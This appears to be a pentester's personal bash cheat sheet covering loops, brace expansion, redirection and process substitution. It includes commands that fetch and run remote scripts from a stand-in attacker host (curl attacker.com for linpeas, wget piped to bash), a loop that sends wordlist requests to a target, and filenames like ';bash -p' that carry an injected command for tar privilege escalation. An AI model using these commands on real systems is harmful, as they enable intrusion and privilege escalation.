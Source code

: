 # bash_isms

## essentials

> bash default vars
```bash
echo $?      # gives error code of most recently run command
```


> keystrokes and hotkeys
```sh
alt+.  # hotkey for use last argument
cd -   # cd to last working dir
ctrl+r # reverse search previous cmds, press multiple times to see next result
```


> for loop
```bash
for i in {0..100}; do  CMD; done
also works for command execs: 
for i in $(cat wordlist.txt); do curl http://IP/$i; done
```


> Brace expansion; similar to * operator on iterables in python *(python implentation of explode)*
```bash
cat {file1,file2,file3} 	 	; will cat those file

# useful for 
mkdir dir{1..4} dirA{1..8}
wget http://MY_IP/{file1,file2} 	
# could even do a loop style brace expansion of numbers or letters here
# such as {1..2}

# other examples
echo {a..z}
echo {1..-5}
```


## advanced

> redirection
```sh
# can be used to issue commands into a binary
./BINARY < exploit.txt
# exploit.txt must contain 1 input per line

# can wget a bash script and pipe it into bash to execute a hosted script
wget http://IP/SCRIPT | bash

# can run linpeas without touching disk
bash < <(curl http://attacker.com/LINPEAS)
```

> file descriptor; a note on `<(curl http://attacker.com/LINPEAS)`
```bash
# this yields a file descriptor, it is NOT redirection
# file descriptors can loosely be thought of like pointers
<(curl http://attacker.com/LINPEAS)

# the following works because bash can read files
bash <(curl http://attacker.com/LINPEAS)

# this can be demonstrated with with the tr command
# tr does not have the ability to read files
#
# the following fails
tr -cd '[[:space:]]' <(seq 1 10)
# the following succeeds
tr -cd '[[:space:]]' < <(seq 1 10)

# reference
https://askubuntu.com/questions/564380/alternative-for-pipe-operator
```


> advanced redirection, i am calling this bidirection
```shell
while read -r line; echo "prefix-$line";done < wordlist > outfile
```


> use ENV vars in your bash scripting by: ***(unverified)***
```bash
${ENV_VARIABLE} 		; perhaps un-exported?

similar to $my_var
```


## other notes

> a note on mkdir; creating a path of dirs
```bash
mkdir -p dir1/dir2/dir3
```


> follow script directory traversal, potent for "day-start" and "new project" scripts. From a systems programming, perspective it is as if the `fork()` or `clone()` is not called (***UNVERIFIED***). The work is done by the parent itself. 
```shell
. script.sh
```


> file creation and "done with arguments", bad characters in file names
```sh
# When trying to create malicious filenames use:
# E.g. when doing tar GTFO bins priv esc 
touch -- ';bash -p' 

# alternatively, echo into malicous filenames
echo '' > ';bash -p' 
```




